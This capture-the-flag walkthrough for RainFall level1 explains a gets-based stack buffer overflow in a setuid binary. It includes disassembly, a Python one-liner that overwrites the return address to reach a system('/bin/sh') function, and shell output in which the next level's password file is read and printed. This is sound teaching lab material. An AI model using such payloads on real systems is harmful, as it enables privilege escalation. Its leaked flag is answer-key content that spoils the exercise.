


# level1

```sh
➜  ~ ssh level1@127.0.0.1 -p 4242
	  _____       _       ______    _ _
	 |  __ \     (_)     |  ____|  | | |
	 | |__) |__ _ _ _ __ | |__ __ _| | |
	 |  _  /  _` | | '_ \|  __/ _` | | |
	 | | \ \ (_| | | | | | | | (_| | | |
	 |_|  \_\__,_|_|_| |_|_|  \__,_|_|_|

                 Good luck & Have fun

  To start, ssh with level0/level0 on 10.0.2.15:4242
level1@127.0.0.1's password:
  GCC stack protector support:            Enabled
  Strict user copy checks:                Disabled
  Restrict /dev/mem access:               Enabled
  Restrict /dev/kmem access:              Enabled
  grsecurity / PaX: No GRKERNSEC
  Kernel Heap Hardening: No KERNHEAP
 System-wide ASLR (kernel.randomize_va_space): Off (Setting: 0)
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level1/level1
level1@RainFall:~$
```

_The ritual_ :
- `pwd`: `/home/user/level1`
- `id`: `uid=2030(level1) gid=2030(level1) groups=2030(level1),100(users)`
- `ls -la`: 
```sh
total 17
dr-xr-x---+ 1 level1 level1   80 Mar  6  2016 .
dr-x--x--x  1 root   root    340 Sep 23  2015 ..
-rw-r--r--  1 level1 level1  220 Apr  3  2012 .bash_logout
-rw-r--r--  1 level1 level1 3530 Sep 23  2015 .bashrc
-rwsr-s---+ 1 level2 users  5138 Mar  6  2016 level1
-rw-r--r--+ 1 level1 level1   65 Sep 23  2015 .pass
-rw-r--r--  1 level1 level1  675 Apr  3  2012 .profile
```

_run it_

```sh
level1@RainFall:~$ ./level1
^C
level1@RainFall:~$ ./level1 "The One Piece is real"
^C
level1@RainFall:~$
```

- It's an infinite loop, regardless of the arguments given.

## _Decompilation time_

```sh
➜  ~ scp -P 4242 level1@127.0.0.1:/home/user/level1/level1 /Users/mayoub/Desktop/
	  _____       _       ______    _ _
	 |  __ \     (_)     |  ____|  | | |
	 | |__) |__ _ _ _ __ | |__ __ _| | |
	 |  _  /  _` | | '_ \|  __/ _` | | |
	 | | \ \ (_| | | | | | | | (_| | | |
	 |_|  \_\__,_|_|_| |_|_|  \__,_|_|_|

                 Good luck & Have fun

  To start, ssh with level0/level0 on 10.0.2.15:4242
level1@127.0.0.1's password:
level1                                                                                                                                                                    100% 5138   321.5KB/s   00:00
➜  ~
```



_Okay, simple. Let's see the man of `gets` :_

```txt
SECURITY CONSIDERATIONS
     The gets() function cannot be used securely.  Because of its lack of bounds checking, and the inability
     for the calling program to reliably determine the length of the next incoming line, the use of this
     function enables malicious users to arbitrarily change a running program's functionality through a
     buffer overflow attack.  It is strongly suggested that the fgets() function be used in all cases.  (See
     the FSA.)
```

_"Buffer Overflow attack"... hum..._

- The binary is vulnerable to a **buffer overflow attack**, here's our exploit.
- Before exploit that, let's see the rest of our decompiled code :



- This function is never called, but it's interesting to see that it's a `system` call with the argument `/bin/sh`. Maybe we can use it to get a shell ?

## Okay, what's a buffer overflow attack ?

- A buffer overflow occurs when a program writes more data to a block of memory, or buffer, than the buffer is allocated to hold. This can corrupt data, crash the program, or give the attacker <u>a way to execute arbitrary code</u>.

- The most common type of buffer overflow is the **stack-based buffer overflow**. In this type of attack, the attacker provides input to a program that is copied to a buffer on the stack. If the attacker provides more data than the buffer can hold, the extra data overwrites other data on the stack, such as the return address of a function.

- The function `gets` is particularly dangerous because it does not perform any bounds checking on the input data. This means that it will continue to write data to the buffer until it encounters a newline character, regardless of the size of the buffer.

- In this case, we can exploit the buffer overflow vulnerability in the `level1` program to overwrite the return address of the `main` function with the address of the `run` function, which will allow us to execute arbitrary code.

## How to exploit it ?

1) We can suppose the buffer we can overflow is the variable `local_50` who has a size of 76 bytes.

2) The function `gets` is used to read input from the user, and it does not perform any bounds checking. This means that we can provide more than 76 bytes of input to overflow the buffer.

3) What the function `run` do ? It calls the `fwrite` function to write the string `Good... Wait what ?` to the standard output, and then it calls the `system` function to execute the command `/bin/sh`.

4) The command `objdump -d level1` displays the disassembled code of the `level1` program, including the addresses of the functions. Here's the output :

```sh
level1@RainFall:~$ objdump -d ./level1

./level1:     file format elf32-i386


Disassembly of section .init:

080482f8 <_init>:
 80482f8:	53                   	push   %ebx
 80482f9:	83 ec 08             	sub    $0x8,%esp
 80482fc:	e8 00 00 00 00       	call   8048301 <_init+0x9>
 8048301:	5b                   	pop    %ebx
 8048302:	81 c3 8b 14 00 00    	add    $0x148b,%ebx
 8048308:	8b 83 fc ff ff ff    	mov    -0x4(%ebx),%eax
 804830e:	85 c0                	test   %eax,%eax
 8048310:	74 05                	je     8048317 <_init+0x1f>
 8048312:	e8 59 00 00 00       	call   8048370 <__gmon_start__@plt>
 8048317:	e8 04 01 00 00       	call   8048420 <frame_dummy>
 804831c:	e8 ff 01 00 00       	call   8048520 <__do_global_ctors_aux>
 8048321:	83 c4 08             	add    $0x8,%esp
 8048324:	5b                   	pop    %ebx
 8048325:	c3                   	ret

Disassembly of section .plt:

08048330 <gets@plt-0x10>:
 8048330:	ff 35 90 97 04 08    	pushl  0x8049790
 8048336:	ff 25 94 97 04 08    	jmp    *0x8049794
 804833c:	00 00                	add    %al,(%eax)
	...

08048340 <gets@plt>:
 8048340:	ff 25 98 97 04 08    	jmp    *0x8049798
 8048346:	68 00 00 00 00       	push   $0x0
 804834b:	e9 e0 ff ff ff       	jmp    8048330 <_init+0x38>

08048350 <fwrite@plt>:
 8048350:	ff 25 9c 97 04 08    	jmp    *0x804979c
 8048356:	68 08 00 00 00       	push   $0x8
 804835b:	e9 d0 ff ff ff       	jmp    8048330 <_init+0x38>

08048360 <system@plt>:
 8048360:	ff 25 a0 97 04 08    	jmp    *0x80497a0
 8048366:	68 10 00 00 00       	push   $0x10
 804836b:	e9 c0 ff ff ff       	jmp    8048330 <_init+0x38>

08048370 <__gmon_start__@plt>:
 8048370:	ff 25 a4 97 04 08    	jmp    *0x80497a4
 8048376:	68 18 00 00 00       	push   $0x18
 804837b:	e9 b0 ff ff ff       	jmp    8048330 <_init+0x38>

08048380 <__libc_start_main@plt>:
 8048380:	ff 25 a8 97 04 08    	jmp    *0x80497a8
 8048386:	68 20 00 00 00       	push   $0x20
 804838b:	e9 a0 ff ff ff       	jmp    8048330 <_init+0x38>

Disassembly of section .text:

08048390 <_start>:
 8048390:	31 ed                	xor    %ebp,%ebp
 8048392:	5e                   	pop    %esi
 8048393:	89 e1                	mov    %esp,%ecx
 8048395:	83 e4 f0             	and    $0xfffffff0,%esp
 8048398:	50                   	push   %eax
 8048399:	54                   	push   %esp
 804839a:	52                   	push   %edx
 804839b:	68 10 85 04 08       	push   $0x8048510
 80483a0:	68 a0 84 04 08       	push   $0x80484a0
 80483a5:	51                   	push   %ecx
 80483a6:	56                   	push   %esi
 80483a7:	68 80 84 04 08       	push   $0x8048480
 80483ac:	e8 cf ff ff ff       	call   8048380 <__libc_start_main@plt>
 80483b1:	f4                   	hlt
 80483b2:	90                   	nop
 80483b3:	90                   	nop
 80483b4:	90                   	nop
 80483b5:	90                   	nop
 80483b6:	90                   	nop
 80483b7:	90                   	nop
 80483b8:	90                   	nop
 80483b9:	90                   	nop
 80483ba:	90                   	nop
 80483bb:	90                   	nop
 80483bc:	90                   	nop
 80483bd:	90                   	nop
 80483be:	90                   	nop
 80483bf:	90                   	nop

080483c0 <__do_global_dtors_aux>:
 80483c0:	55                   	push   %ebp
 80483c1:	89 e5                	mov    %esp,%ebp
 80483c3:	53                   	push   %ebx
 80483c4:	83 ec 04             	sub    $0x4,%esp
 80483c7:	80 3d c4 97 04 08 00 	cmpb   $0x0,0x80497c4
 80483ce:	75 3f                	jne    804840f <__do_global_dtors_aux+0x4f>
 80483d0:	a1 c8 97 04 08       	mov    0x80497c8,%eax
 80483d5:	bb b8 96 04 08       	mov    $0x80496b8,%ebx
 80483da:	81 eb b4 96 04 08    	sub    $0x80496b4,%ebx
 80483e0:	c1 fb 02             	sar    $0x2,%ebx
 80483e3:	83 eb 01             	sub    $0x1,%ebx
 80483e6:	39 d8                	cmp    %ebx,%eax
 80483e8:	73 1e                	jae    8048408 <__do_global_dtors_aux+0x48>
 80483ea:	8d b6 00 00 00 00    	lea    0x0(%esi),%esi
 80483f0:	83 c0 01             	add    $0x1,%eax
 80483f3:	a3 c8 97 04 08       	mov    %eax,0x80497c8
 80483f8:	ff 14 85 b4 96 04 08 	call   *0x80496b4(,%eax,4)
 80483ff:	a1 c8 97 04 08       	mov    0x80497c8,%eax
 8048404:	39 d8                	cmp    %ebx,%eax
 8048406:	72 e8                	jb     80483f0 <__do_global_dtors_aux+0x30>
 8048408:	c6 05 c4 97 04 08 01 	movb   $0x1,0x80497c4
 804840f:	83 c4 04             	add    $0x4,%esp
 8048412:	5b                   	pop    %ebx
 8048413:	5d                   	pop    %ebp
 8048414:	c3                   	ret
 8048415:	8d 74 26 00          	lea    0x0(%esi,%eiz,1),%esi
 8048419:	8d bc 27 00 00 00 00 	lea    0x0(%edi,%eiz,1),%edi

08048420 <frame_dummy>:
 8048420:	55                   	push   %ebp
 8048421:	89 e5                	mov    %esp,%ebp
 8048423:	83 ec 18             	sub    $0x18,%esp
 8048426:	a1 bc 96 04 08       	mov    0x80496bc,%eax
 804842b:	85 c0                	test   %eax,%eax
 804842d:	74 12                	je     8048441 <frame_dummy+0x21>
 804842f:	b8 00 00 00 00       	mov    $0x0,%eax
 8048434:	85 c0                	test   %eax,%eax
 8048436:	74 09                	je     8048441 <frame_dummy+0x21>
 8048438:	c7 04 24 bc 96 04 08 	movl   $0x80496bc,(%esp)
 804843f:	ff d0                	call   *%eax
 8048441:	c9                   	leave
 8048442:	c3                   	ret
 8048443:	90                   	nop

08048444 <run>:
 8048444:	55                   	push   %ebp
 8048445:	89 e5                	mov    %esp,%ebp
 8048447:	83 ec 18             	sub    $0x18,%esp
 804844a:	a1 c0 97 04 08       	mov    0x80497c0,%eax
 804844f:	89 c2                	mov    %eax,%edx
 8048451:	b8 70 85 04 08       	mov    $0x8048570,%eax
 8048456:	89 54 24 0c          	mov    %edx,0xc(%esp)
 804845a:	c7 44 24 08 13 00 00 	movl   $0x13,0x8(%esp)
 8048461:	00
 8048462:	c7 44 24 04 01 00 00 	movl   $0x1,0x4(%esp)
 8048469:	00
 804846a:	89 04 24             	mov    %eax,(%esp)
 804846d:	e8 de fe ff ff       	call   8048350 <fwrite@plt>
 8048472:	c7 04 24 84 85 04 08 	movl   $0x8048584,(%esp)
 8048479:	e8 e2 fe ff ff       	call   8048360 <system@plt>
 804847e:	c9                   	leave
 804847f:	c3                   	ret

08048480 <main>:
 8048480:	55                   	push   %ebp
 8048481:	89 e5                	mov    %esp,%ebp
 8048483:	83 e4 f0             	and    $0xfffffff0,%esp
 8048486:	83 ec 50             	sub    $0x50,%esp
 8048489:	8d 44 24 10          	lea    0x10(%esp),%eax
 804848d:	89 04 24             	mov    %eax,(%esp)
 8048490:	e8 ab fe ff ff       	call   8048340 <gets@plt>
 8048495:	c9                   	leave
 8048496:	c3                   	ret
 8048497:	90                   	nop
 8048498:	90                   	nop
 8048499:	90                   	nop
 804849a:	90                   	nop
 804849b:	90                   	nop
 804849c:	90                   	nop
 804849d:	90                   	nop
 804849e:	90                   	nop
 804849f:	90                   	nop

080484a0 <__libc_csu_init>:
 80484a0:	55                   	push   %ebp
 80484a1:	57                   	push   %edi
 80484a2:	56                   	push   %esi
 80484a3:	53                   	push   %ebx
 80484a4:	e8 69 00 00 00       	call   8048512 <__i686.get_pc_thunk.bx>
 80484a9:	81 c3 e3 12 00 00    	add    $0x12e3,%ebx
 80484af:	83 ec 1c             	sub    $0x1c,%esp
 80484b2:	8b 6c 24 30          	mov    0x30(%esp),%ebp
 80484b6:	8d bb 20 ff ff ff    	lea    -0xe0(%ebx),%edi
 80484bc:	e8 37 fe ff ff       	call   80482f8 <_init>
 80484c1:	8d 83 20 ff ff ff    	lea    -0xe0(%ebx),%eax
 80484c7:	29 c7                	sub    %eax,%edi
 80484c9:	c1 ff 02             	sar    $0x2,%edi
 80484cc:	85 ff                	test   %edi,%edi
 80484ce:	74 29                	je     80484f9 <__libc_csu_init+0x59>
 80484d0:	31 f6                	xor    %esi,%esi
 80484d2:	8d b6 00 00 00 00    	lea    0x0(%esi),%esi
 80484d8:	8b 44 24 38          	mov    0x38(%esp),%eax
 80484dc:	89 2c 24             	mov    %ebp,(%esp)
 80484df:	89 44 24 08          	mov    %eax,0x8(%esp)
 80484e3:	8b 44 24 34          	mov    0x34(%esp),%eax
 80484e7:	89 44 24 04          	mov    %eax,0x4(%esp)
 80484eb:	ff 94 b3 20 ff ff ff 	call   *-0xe0(%ebx,%esi,4)
 80484f2:	83 c6 01             	add    $0x1,%esi
 80484f5:	39 fe                	cmp    %edi,%esi
 80484f7:	75 df                	jne    80484d8 <__libc_csu_init+0x38>
 80484f9:	83 c4 1c             	add    $0x1c,%esp
 80484fc:	5b                   	pop    %ebx
 80484fd:	5e                   	pop    %esi
 80484fe:	5f                   	pop    %edi
 80484ff:	5d                   	pop    %ebp
 8048500:	c3                   	ret
 8048501:	eb 0d                	jmp    8048510 <__libc_csu_fini>
 8048503:	90                   	nop
 8048504:	90                   	nop
 8048505:	90                   	nop
 8048506:	90                   	nop
 8048507:	90                   	nop
 8048508:	90                   	nop
 8048509:	90                   	nop
 804850a:	90                   	nop
 804850b:	90                   	nop
 804850c:	90                   	nop
 804850d:	90                   	nop
 804850e:	90                   	nop
 804850f:	90                   	nop

08048510 <__libc_csu_fini>:
 8048510:	f3 c3                	repz ret

08048512 <__i686.get_pc_thunk.bx>:
 8048512:	8b 1c 24             	mov    (%esp),%ebx
 8048515:	c3                   	ret
 8048516:	90                   	nop
 8048517:	90                   	nop
 8048518:	90                   	nop
 8048519:	90                   	nop
 804851a:	90                   	nop
 804851b:	90                   	nop
 804851c:	90                   	nop
 804851d:	90                   	nop
 804851e:	90                   	nop
 804851f:	90                   	nop

08048520 <__do_global_ctors_aux>:
 8048520:	55                   	push   %ebp
 8048521:	89 e5                	mov    %esp,%ebp
 8048523:	53                   	push   %ebx
 8048524:	83 ec 04             	sub    $0x4,%esp
 8048527:	a1 ac 96 04 08       	mov    0x80496ac,%eax
 804852c:	83 f8 ff             	cmp    $0xffffffff,%eax
 804852f:	74 13                	je     8048544 <__do_global_ctors_aux+0x24>
 8048531:	bb ac 96 04 08       	mov    $0x80496ac,%ebx
 8048536:	66 90                	xchg   %ax,%ax
 8048538:	83 eb 04             	sub    $0x4,%ebx
 804853b:	ff d0                	call   *%eax
 804853d:	8b 03                	mov    (%ebx),%eax
 804853f:	83 f8 ff             	cmp    $0xffffffff,%eax
 8048542:	75 f4                	jne    8048538 <__do_global_ctors_aux+0x18>
 8048544:	83 c4 04             	add    $0x4,%esp
 8048547:	5b                   	pop    %ebx
 8048548:	5d                   	pop    %ebp
 8048549:	c3                   	ret
 804854a:	90                   	nop
 804854b:	90                   	nop

Disassembly of section .fini:

0804854c <_fini>:
 804854c:	53                   	push   %ebx
 804854d:	83 ec 08             	sub    $0x8,%esp
 8048550:	e8 00 00 00 00       	call   8048555 <_fini+0x9>
 8048555:	5b                   	pop    %ebx
 8048556:	81 c3 37 12 00 00    	add    $0x1237,%ebx
 804855c:	e8 5f fe ff ff       	call   80483c0 <__do_global_dtors_aux>
 8048561:	83 c4 08             	add    $0x8,%esp
 8048564:	5b                   	pop    %ebx
 8048565:	c3                   	ret
level1@RainFall:~$
```

- Okay it's a big porridge, but we can see the address of the function `run` is `0x8048444`.

5) `local_50` keeps 76 bytes, and the return address is 4 bytes after the end of the buffer. So we need to fill the buffer with 76 bytes, and overwrite the return address with the address of the `run` function.

For more explications, her's a schema :

```txt
Empilement initial de la pile
+----------------------------+
| Adresse de retour (main)   | <- Écrasée par l'adresse de `run`
+----------------------------+
| local_50 (76 octets)       |
+----------------------------+

Empilement après débordement de tampon
+----------------------------+
| Adresse de retour (0x08048444) <- Redirige vers `run`
+----------------------------+
| "A" * 76 + \x44\x84\x04\x08|
+----------------------------+
```

6) **Now we know how to exploit the program** : we need to provide 76 bytes of padding followed by the address of the `run` function. Let's do it and construct the payload. For construct the payload we need :
- The address of the `run` function : `0x08048444`
- The padding : `"A" * 76`

7) **Understanding what is `little-endian` and `big-endian`** : In computing, **endianess** is the order or sequence of bytes of a word of digital data in computer memory. Endianness is primarily expressed as **big-endian** (BE) or **little-endian** (LE). A big-endian system stores the most significant byte of a word at the smallest memory address and the least significant byte at the largest. A little-endian system, in contrast, stores the least significant byte at the smallest address.

Exemple : `0x12345678` in big-endian is `12 34 56 78` and in little-endian is `78 56 34 12`.

- Which endianess is used in our system ? We can use the command `lscpu` to know it :

```sh
level1@RainFall:~$ lscpu
Architecture:          i686
CPU op-mode(s):        32-bit, 64-bit
Byte Order:            Little Endian
CPU(s):                4
On-line CPU(s) list:   0-3
Thread(s) per core:    1
Core(s) per socket:    4
Socket(s):             1
Vendor ID:             AuthenticAMD
CPU family:            15
Model:                 107
Stepping:              1
CPU MHz:               999.999
BogoMIPS:              1897.33
Virtualization:        AMD-V
L1d cache:             64K
L1i cache:             64K
L2 cache:              512K
L3 cache:              16384K
level1@RainFall:~$
```

- It's a `Little Endian` system.

8) **What is a payload** : A payload is a piece of code that is executed when a vulnerability is exploited. In this case, the payload will be the address of the `run` function followed by the padding and the output is returned to the standard output.

9) **Let's construct the payload** (in Python for my case because... Because I want it, it's my walkthrough, you can use others languages) :

```sh
python -c 'print "A" * 76 + "\x44\x84\x04\x08"'
```

- `python -c` : execute the Python code in the command line.
- `print` : print the output.
- `"A" * 76` : print the character `A` 76 times.
- `+` : concatenate the two strings.
- `"\x44\x84\x04\x08"` : the address of the `run` function in little-endian.
- `| ./level1` : pipe the output to the `level1` program, we add it to execute the payload.

10) **Let's exploit it** :

```sh
level1@RainFall:~$ python -c 'print "A" * 76 + "\x44\x84\x04\x08"' | ./level1
Good... Wait what?
[...WAITING FOR THE SHELL...]
```

## OHHH LEZGOOO-

```sh
level1@RainFall:~$ python -c 'print "A" * 76 + "\x44\x84\x04\x08"' | ./level1
Good... Wait what?
Segmentation fault (core dumped)
level1@RainFall:~$
```

## NOOOOOOOOOOOOO

- **Why a `Segmentation fault` ?** Because `python -c 'print "A" * 76 + "\x44\x84\x04\x08"'` send as output `AAA...A\x44\x84\x04\x08` to the pipe and close the standard input, then the pipe send the output to the `level1` program, but the `gets` function read the input from the standard input, and the standard input is closed, so the program crashes. It's just a shell issue.

- **How to fix it ?** Use a new command to keep the standard input open after the payload is sent : `cat`. The pipe receive as input FIRSTLY the output of `python -c 'print "A" * 76 + "\x44\x84\x04\x08"'` and SECONDLY the output of `cat`. What is the output of `cat` ? Nothing, it just keep the standard input open and send what he receive as input to the pipe and the pipe send it to the `level1` program. That's it. That's shell. (remember [`minishell`](https://github.com/Nimpoo/minishell))

- Here's the new command : **`(python -c 'print "A" * 76 + "\x44\x84\x04\x08"'; cat) | ./level1`**

```sh
level1@RainFall:~$ (python -c 'print "A" * 76 + "\x44\x84\x04\x08"'; cat) | ./level1
Good... Wait what?
[...NOTHING...]
```

_Okay, no crash..._

```sh
level1@RainFall:~$ (python -c 'print "A" * 76 + "\x44\x84\x04\x08"'; cat) | ./level1
Good... Wait what?
whoami
level2
```

# _LEZGOOOOOOOOOOOOOOOOOOOOOOOO !!!! Let's get the flag ! :_

```sh
level1@RainFall:~$ (python -c 'print "A" * 76 + "\x44\x84\x04\x08"'; cat) | ./level1
Good... Wait what?
whoami
level2
cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
^C
Segmentation fault (core dumped)
level1@RainFall:~$
```

(The `Segmentation fault` is normal, the `SIGINT` signal close the standard input, so the program crashes)

- Let's log in to `level2`

```sh
level1@RainFall:~$ su level2
Password:
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/user/level2/level2
level2@RainFall:~$
```

# level1 complet !
